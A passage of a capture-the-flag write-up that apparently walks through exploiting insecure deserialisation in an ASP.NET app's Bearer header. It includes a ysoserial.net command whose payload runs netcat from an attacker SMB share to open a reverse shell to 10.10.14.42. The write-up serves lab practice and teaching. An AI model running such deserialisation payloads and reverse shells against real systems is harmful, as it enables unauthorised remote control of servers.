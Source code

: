 The response was the same as the decoded cookie value! This means that either the `OAuth2` cookie or the `Bearer` HTTP header value was being deserialised and decoded via `base64` or something. If we remove a few characters from the `Bearer` header, we get an error:

<figure><img src="../../../.gitbook/assets/image (1328).png" alt=""><figcaption></figcaption></figure>

If we remove more characters, we get this error:

<figure><img src="../../../.gitbook/assets/image (438).png" alt=""><figcaption></figcaption></figure>

There definitely is an insecure deserialisation exploit here, because the values of the `Bearer` header are likely unsanitised since it still attempts to process it. As such, we can use `ysoserial.exe` to generate a payload to give us a reverse shell.&#x20;

{% embed url="https://github.com/pwntester/ysoserial.net" %}

`ysoserial.exe` has a lot of different gadgets, of which we should be using those that have the `Json.Net` formatters since we were being returned JSON in the request. This also matches the website, since it is hosted using ASP.NET. We can try to get a reverse shell using `smbserver.py` to execute `nc64.exe`.&#x20;

I tried using this gadget, but it didn't work:

```
C:\Users\User\htb\Release>.\ysoserial.exe -g WindowsPrincipal -f Json.Net -c "\\\\10.10.14.42\\share\\nc64.exe -e cmd.exe 10.10.14.42 4444" -o base64
ew0KICAgICAgICAgICAgICAgICAgICAnJHR5cGUnOiAnU3lzdGVtLlNlY3VyaXR5LlByaW5jaXB...
```
